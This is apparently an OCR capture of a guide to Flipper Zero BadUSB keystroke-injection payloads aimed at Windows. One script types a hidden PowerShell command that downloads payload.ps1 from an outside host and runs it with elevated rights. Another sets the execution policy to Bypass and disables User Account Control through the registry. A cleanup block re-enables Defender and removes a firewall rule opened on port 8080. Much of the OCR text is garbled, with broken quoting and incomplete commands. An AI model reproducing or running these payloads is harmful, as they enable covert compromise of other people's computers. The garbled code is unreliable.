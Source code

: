 ```
Delay     # Optional: Start and enable Windows Defender services if previously stopped and disabled    
 Delay      Gui R  
 Delay      String Powershell .exe   
 enter delay    
 string start-service-name WinDefend  
enter delay      
String set-service-name windefend-startupType automatic   
 enter delay   

Delay     Remove the newly added rule when done (optional)   
 delay    Gui R  
 string Powershell .exe     
 Enter Delay      
string remove-netfirewallrule-displayname allowincoming8080        
Enter Delay    

 #Optional: Re-enable UAC(User Account Control) when done     
 delay      gui R    
 String Powershell .exe     
Enter Delay        
String   `$ regpathReenableUac=‘HKLM:\\\\SOFTWARE \\\\Microsoft \\\\Windows \\\\CurrentVersion \\\\Policies \\\\System‘;$namereenableuac=‘EnableLUA’;$valuereenableuac=1 ;New-itemproperty-path `$ regpathReenableUac-name `$ namereenableuac-value `$ valuereenableuac-propertytype dword-force       
Enter       
DELAY 1000
GUI r
DELAY 500
STRING powershell -NoP -NonI -W Hidden -Exec Bypass -Command "Invoke-WebRequest -Uri 'http://tgmannen.infinityfreeapp.com/1/payload.ps1' -OutFile '$env:temp\payload.ps1'; Start-Process powershell -ArgumentList '-ExecutionPolicy Bypass -File $env:temp\payload.ps1' -Verb RunAs"
DELAY 1000
ENTER
```

---
### **Step 3: (3d version) Creating the Flipper Zero Payload**

The Flipper Zero will simulate keystrokes to download and execute the PowerShell script. Here’s the BadUSB script:

```
DELAY 1000
# Open Run dialog
GUI r
DELAY 500
# Set PowerShell execution policy to bypass restrictions
STRING powershell.exe -Command "Set-ExecutionPolicy -ExecutionPolicy Bypass -Force"
DELAY 500
ENTER

DELAY 1000
# Open Run dialog again
GUI r
DELAY 500
# Disable User Account Control (UAC) by modifying registry
STRING powershell.exe -Command "
# Define registry entry name and path
name = 'EnableLUA';
regPath -Name
# Set value to disable UAC
value -PropertyType DWORD -Force"
DELAY 500
```